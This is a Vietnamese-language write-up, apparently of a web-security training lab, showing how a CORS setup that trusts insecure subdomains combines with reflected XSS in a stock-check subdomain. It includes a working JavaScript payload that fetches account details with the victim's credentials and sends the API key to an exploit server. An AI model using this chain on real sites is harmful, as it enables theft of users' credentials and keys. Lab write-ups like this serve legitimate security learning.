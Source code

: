 ### LAB03 

Lab này cũng được cung cấp 1 account. Sau khi login thì nó trả về 1 request như này: 

![image](https://hackmd.io/_uploads/ByYy0bmOee.png)

Quan sát thì thấy có trường `Access-Control-Allow-Credentials` như vậy ứng dụng có thể support CORS. 

Để test thì mình thử thêm trường `Origin: http://subdomain...` xem ứng dụng phản hồi như thế nào. 

![image](https://hackmd.io/_uploads/H19zHfXdxg.png)

Nó cũng trả lại thì CORS được config cho HTTP và HTTPS. 

Khi nó kiểm tra chức năng checkstock thì: 

![image](https://hackmd.io/_uploads/BksOrMX_le.png)

Thì nó gọi tới 1 URL dùng HTTP là http://stock. vì có response nó như sau: 

![image](https://hackmd.io/_uploads/H18IPf7Ogg.png)

Và mình thử nhập test trên tham số `product` xem như thế nào trên subdomain .stock 

![image](https://hackmd.io/_uploads/Hkhy_f7_lx.png)

Thì nó bị dính Reflected XSS 

![image](https://hackmd.io/_uploads/ryJZKGQuxg.png)

Như vậy nếu mình viết 1 script để lấy CORS kèm credentials sau đó fetch tới log của exploit server.

```javascript=
<script>
    fetch('https://<LAB-ID>/accountDetails', {
    credentials: 'include'
})
.then(r => r.json())
.then(j => fetch('http://exploit-server/?key='+j.apiKey))
</script>
```

Sau đó mình encode rồi nhét nó vào tham số product trong subdomain http://stock. 

![image](https://hackmd.io/_uploads/HkJP0GXdgg.png)

Như vậy thì thấy nó chạy thành công í nên là mình exploit server mình truyền như sau: 

![image](https://hackmd.io/_uploads/BkF7t77dgg.png)

Thì ở đây truy cập 1 access-log thì nó lấy được api. 

![image](https://hackmd.io/_uploads/rkSGt7Xuxl.png)

Và sao mình biết là có apikey mà lấy thì do đây. 
